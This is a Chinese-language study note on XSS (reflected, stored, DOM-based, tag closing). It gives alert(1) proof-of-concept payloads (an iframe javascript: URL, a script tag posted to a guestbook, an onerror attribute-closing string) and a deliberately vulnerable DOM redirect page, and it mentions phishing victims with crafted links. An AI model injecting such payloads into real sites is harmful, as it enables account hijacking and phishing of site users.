# WEB攻防-XSS跨站&反射型&存储型&DOM型&标签闭合&输入输出&JS代码解析





## 嵌套网站 XSS反射型

模拟钓鱼把网站发给对方

常用标签：https://www.freebuf.com/articles/web/340080.html

```
<iframe src="javascript:alert(1)">test</iframe>
```


## 利用留言板测试 XSS存储型

```
<script>alert(1)</script>
```



只要浏览到这个界面就会出现弹窗 ==成功后可以修改你想要的代码==



## DOM-base型XSS

```
<html>
<head>
    <title>dom-xss-test</title>
    <script src="https://code.jquery.com/jquery-1.6.1.min.js"></script>
    <script>
        var hash = location.hash;
        if(hash){
            var url = hash.substring(1);
            location.href = url;
        }
    </script>
</head>
<body>
dom xss test.
</body>
</html>
```



## 模拟接收图片 闭合问题





当输入



无法正常显示==考虑闭合==





常用标签：https://www.freebuf.com/articles/web/340080.html

```


```



```
www.123.com/xss.php?x=x onerror="alert(1)">
```

成功弹窗

